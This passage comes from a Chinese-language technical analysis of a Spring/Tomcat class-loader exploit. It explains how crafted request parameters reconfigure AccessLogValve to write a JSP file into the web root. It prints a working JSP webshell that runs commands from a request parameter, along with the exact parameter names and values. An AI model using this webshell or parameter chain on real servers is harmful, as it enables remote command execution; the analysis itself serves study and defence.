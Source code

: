 ![img](https://images.seebug.org/content/images/2022/04/598fe68b-b0e7-4f9a-b5be-18a42d50dd17.png-w331s)

即通过`AccessLogValve`输出的日志中可以通过形如`%{param}i`等形式直接引用HTTP请求和响应中的内容。完整文档请参考文章末尾的参考章节。

结合poc.py中`headers`变量内容：

```Python
headers = {"suffix":"%>//",
            "c1":"Runtime",
            "c2":"<%",
            "DNT":"1",
            "Content-Type":"application/x-www-form-urlencoded"
}
```

最终可以得到`AccessLogValve`输出的日志实际内容如下（已格式化）：

```Java
<%
if("j".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
}
%>//
```

很明显，这是一个JSP webshell。这个webshell输出到了哪儿？名称是什么？能被直接访问和正常解析执行吗？我们接下来看其余的参数。

### 3.1.2 `suffix`参数

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.suffix`
- 参数值：`.jsp`

按照`pattern`参数相同的调试方法，`suffix`参数最终将`AccessLogValve.suffix`设置为`.jsp`，即access_log的文件名后缀。

### 3.1.3 `directory`参数

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.directory`
- 参数值：`webapps/ROOT`

按照`pattern`参数相同的调试方法，`directory`参数最终将`AccessLogValve.directory`设置为`webapps/ROOT`，即access_log的文件输出目录。

这里提下`webapps/ROOT`目录，该目录为Tomcat Web应用根目录。部署到目录下的Web应用，可以直接通过`http://localhost:8080/`根目录访问。

### 3.1.4 `prefix`参数

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.prefix`
- 参数值：`tomcatwar`

按照`pattern`参数相同的调试方法，`prefix`参数最终将`AccessLogValve.prefix`设置为`tomcatwar`，即access_log的文件名前缀。
